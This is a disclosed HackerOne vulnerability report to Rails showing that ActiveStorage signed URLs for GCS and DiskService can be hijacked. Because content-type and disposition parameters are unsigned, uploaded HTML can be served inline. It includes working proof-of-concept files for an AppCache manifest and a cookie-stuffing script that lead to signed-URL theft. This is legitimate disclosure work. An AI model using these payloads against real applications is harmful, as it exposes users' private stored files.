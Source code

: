 # ActiveStorage service's signed URLs can be hijacked via AppCache+Cookie stuffing trick when using GCS or DiskService

## Report Details
- **Report ID**: 407319
- **URL**: https://hackerone.com/reports/407319
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-09-07T20:39:10.582Z
- **Disclosed**: 2018-12-27T21:27:02.574Z

## Reporter
- **Username**: rosa
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: rails

## Vulnerability Information
`ActiveStorage` tries to force `content-disposition: attachment` for [a list of content-types](https://github.com/rails/rails/blob/2a470d73a75ebf8cd7975e469bd82586d9234442/activestorage/lib/active_storage/engine.rb#L33-L42), including `text/html`. However, `response-content-type` and `response-content-disposition` in GCS and DiskService's URLs aren't signed, which means an attacker can modify them at will. This is not the case for Azure or S3.

This can be exploited using `AppCache` and cookie bombing as follows:
1. Upload the following file as `ActiveStorage::Blob`
File: fallback.html
```
<html>
<script>
  alert('Your request to the page '+location.href+' is hijacked!');
</script>
</html>
```
Grab the service signed URL for it and modify content type and content disposition params to `text/html` and `inline`. 

2. Now upload this other file using that URL as fallback:
File: manifest.appcache
```
CACHE MANIFEST 
FALLBACK:
/bucket_name/ [fallback_url from previous step]
```
In the same way, grab the signed service URL and modify content disposition and type to ensure it's served inline and as `text/cache-manifest`. 

3. Finally, upload this file using the service URL for manifest.appcache:
File: main.html
```
<html manifest="[manifest_url from the manifest above]">
Any requests to this bucket will be hijacked.
<script>
setTimeout(function(){
for(var i = 1e3; i>0; i--){document.cookie = i + '=' + Array(4e3).join('0') + '; path=/'};
}, 3000);
</script>
</html>
```
Grab the service URL for `main.html`, modify content type and disposition to ensure it's served as `inline` and `text/html`, and trick a user of the Rails app with access to `ActiveStorage` attachments into clicking it.

Since it'll be open inline and as HTML, the JS code to overflow the cookies for the service (storage.googleapis.com in the case of GCS) will be executed. Next time the user makes a request for a file under the same bucket as `main.html`, googleapis.com will return an error due to the size of the cookie headers. This will be interpreted as being offline by the browser, which will offer the fallback specified in the manifest.  The `fallback.html` above will be opened inline and as HTML as well, and its JS code executed. That code can be made to send `location.href` (the signed URL)  to the attacker.

## Impact

Gain access to signed URLs for private objects, which in practice means access to those objects, as signed URLs is all that is needed.

## Attachments
No attachments
